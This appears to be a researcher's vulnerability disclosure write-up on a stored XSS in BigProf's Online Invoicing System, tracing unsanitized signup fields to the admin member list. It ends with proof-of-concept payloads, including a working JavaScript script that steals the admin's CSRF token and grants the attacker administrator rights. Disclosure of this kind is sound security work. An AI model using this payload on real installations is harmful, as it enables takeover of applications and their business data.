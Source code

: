 ```yaml
---
layout: post
title: BigProf-Software Online Invoicing System | Stored XSS in /membership_signup.php -> Application Takeover
tags: [CVE-Writeup, XSS]
author: Ingredous Labs
comment: true
---
```


```
Software Name: Online Invoicing System
Software Version: < 3.1
Software Developer: https://bigprof.com/
Link to Software: https://github.com/bigprof-software/online-invoicing-system
Vulnerability: Application Takeover via Stored XSS
CVE ID: Pending
Pending
```

# Introduction

Online Invoicing System fails to correctly sanitize user input when a user registers using the self-registration functionality. As such, an attacker can input a specially crafted payload that will execute upon the application's administrator browsing the registered user's list. Once the arbitrary Javascript is executed in the context of the admin, this will cause the attacker to gain administrative privileges therefore effectively leading into an application takeover.

# Exploitation Details

**PHP Version used throughout this writeup: PHP 7.4.8**

In order to allow user's to self-register, the following pre-requisites need to be met:

1. Sign up has to be enabled in `admin/pageSettings.php` (enabled by default during a fresh install.) 
2. Custom group has to be created which would contain the self-signed up users. 

Upon these two pre-reqs being met, a user is able to self-register by browsing to `http://localhost/membership_signup.php`.

When registering, a user sees the following fields:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-xss1/fields.png)

The majority fields are optional apart from:

~~~
Username
Password
Confirm Password
Email
Group
~~~

Let's take a peek in the code to see what happens to the values of these fields after this information is passed to the server.

`app/membership_signup.php`:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-xss1/fieldsbackend.png)

As shown on Lines 3-11 above, multiple variables are initialized with the values of the user-input after being passed into various functions. Then on Lines 14-32, the data is validated to ensure the username does not exist, the passwords match, etc. Finally on Line 37, a SQL query is crafted using the user input and executed thus storing the registered user's information in the database.

However Lines 8-11, look very interesting:

~~~
$custom1 = makeSafe($_POST['custom1']);
$custom2 = makeSafe($_POST['custom2']);
$custom3 = makeSafe($_POST['custom3']);
$custom4 = makeSafe($_POST['custom4']);
~~~

The lines above take the values that are passed into each respective parameter that starts with the name "custom". Looking at the HTML of the sign-up form, we can confirm these correspond with the optional fields: 

~~~
Full Name
Address
City 
State
~~~


What's most interesting here is that before these values are initialized with their respective variable, the values are first passed into the `makeSafe()` function. The `makeSafe()` function is dissected in the following [writeup](https://labs.ingredous.com/2020/07/13/ois-sqli/). Long story short, the `makeSafe()` function is responsible for essentially catching and dealing with any special characters that could result in a SQL Injection. An example of such special characters are null bytes, single quotes, line feeds, carriage returns, etc. 

So while the `makeSafe()` function may help prevent SQL Injection attacks, it has no role in sanitizing HTML. As no HTML characters are being sanitized, the database is directly storing the HTML payloads unharmed. 

While this is a red flag, it is not appropriate to jump to conclusions as there could be additional functionality which sanitizes the value stored in the database before reflecting it onto the page.

To confirm this, we can take a look at the code which is responsible for displaying these values to the administrator.

**admin/pageViewMembers.php**:
![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-xss1/reflectme.png)

As shown on Line 1, a SQL query is executed to retrieve the values of the following columns:

~~~
m.memberID - Column 0
g.name - Column 1
m.signupDate - Column 2
m.custom1 - Column 3
m.custom2 - Column 4
m.custom3 - Column 5
m.custom4 - Column 6
...
~~~

On Line 2, a while loop is used to iterate over the values of each column. The index here corresponds with the index of the columns being listed above such as `$row[0]` being the memberID (m.memberID), `$row[1]` being the group name (g.name) and so on.

With this in mind, this means that the values of the custom fields will be stored in:

~~~
$row[3] // Full Name
$row[4] // Address
$row[5] // City
$row[6] // State
~~~

Finally each of these values are passed into the `thisOr()` function in which the returned value is directly reflected on to the page:

~~~php
<td class="text-left"><?php echo thisOr($row[1]); ?></td>
<td class="text-left"><?php echo thisOr($row[2]); ?></td>
<td class="text-left"><?php echo thisOr($row[3]); ?></td>
<td class="text-left"><?php echo thisOr($row[4]); ?></td>
<td class="text-left"><?php echo thisOr($row[5]); ?></td>
<td class="text-left"><?php echo thisOr($row[6]); ?></td>
<td class="text-left">
    <?php echo (($row[7] && $row[8]) ? $Translation['Banned'] : ($row[8] ? $Translation['active'] : $Translation['waiting approval'] )); ?>
</td>
~~~

Let's take a quick peek into the `thisOr()` function as it is the last step between successful exploitation as it may be the function which could be responsible for sanitizing the items.

**admin/incFunctions.php**:

![Screenshot]({{ site.baseurl }}/images/posts/2020/ois-xss1/thisor.png)

As shown above, the `thisOr()` function performs a simple ternary operation which checks if the value of the parameter passed to it is empty. If the value is not empty, it is returned as is. However if the value is empty, a non-breaking space HTML entity is returned.

Since `thisOr()` was the final thing standing between succesful exploitation and not, we can now confirm that the application is indeed vulnerable to Stored Cross-Site Scripting as the application fails to sanitize the user-input for any HTML special characters which can lead to exploitation.

With this in mind, an attacker is able to use Javascript to craft a payload which would grant their account the highest privileges offered by the application. After sending the payload when creating a new user, an attacker will need to wait until the application's administrator browses to the user list which would therefore execute the payload. As the payload is executed in the context of the application, the Same Origin Policy is therefore bypassed and an attacker is able to effectively takeover the application.

# Proof of Concept

Basic:

```
Full Name - <img src=/ onerror=alert(1)>
Address - <img src=/ onerror=alert(2)>
City - <img src=/ onerror=alert(3)>
State - <img src=/ onerror=alert(4)>
```

Bypass SOP and grant yourself admin rights:

```javascript
// add-admin.js
var req = new XMLHttpRequest();
var url = ""+ "/admin/pageEditMember.php?saved=1&memberID=attacker";
var regex = /csrf_token" value="([^"]*?)"/g;
req.open("GET", url, false);
req.send();
var nonce = regex.exec(req.responseText);
var nonce = nonce[1];
var params = "csrf_token="+nonce+"&oldMemberID=attacker&memberID=attacker&password=&confirmPassword=&email=attacker%40testing.io&groupID=2&isApproved=1&custom1=testing&custom2=123+Fake+St&custom3=London&custom4=New+York&comments=Test&saveChanges=1";
req.open("POST", url, true);
req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req.send(params);
```

**Replace**:
The values of `oldMemberID` and `memberID` with your respective username.

